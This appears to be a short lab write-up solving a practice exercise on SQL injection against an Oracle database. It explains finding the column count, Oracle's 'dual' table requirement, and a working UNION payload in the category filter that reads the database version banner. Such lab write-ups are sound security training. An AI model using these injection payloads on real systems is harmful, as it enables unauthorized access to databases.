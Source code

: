 # Lab: SQL injection attack, querying the database type and version on Oracle
## Task
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution
When figuring out the number of columns returned in the response, an error occurred when I queried `ORDER BY 3`. This means there are 2 columns returned.  

![image](https://user-images.githubusercontent.com/44528004/130065271-10e8f5cb-2d33-4107-b3e0-04df185f11ab.png)

In Oracle Sql, in order to `SELECT NULL`, we must specify the table `dual`; otherwise, an error is returned:
```sql
SELECT NULL FROM dual
```

Then, I figured out that the first column is string-compatible, so the information can be retrieved an put on this column.  

To get the Oracle sql version, the payload is:
```
/filter?category=Pets'+UNION+SELECT+banner,NULL+FROM+v$version--
```

![image](https://user-images.githubusercontent.com/44528004/130066310-c317251a-01cc-450d-8d17-b5ab4a6940aa.png)

> Solved!
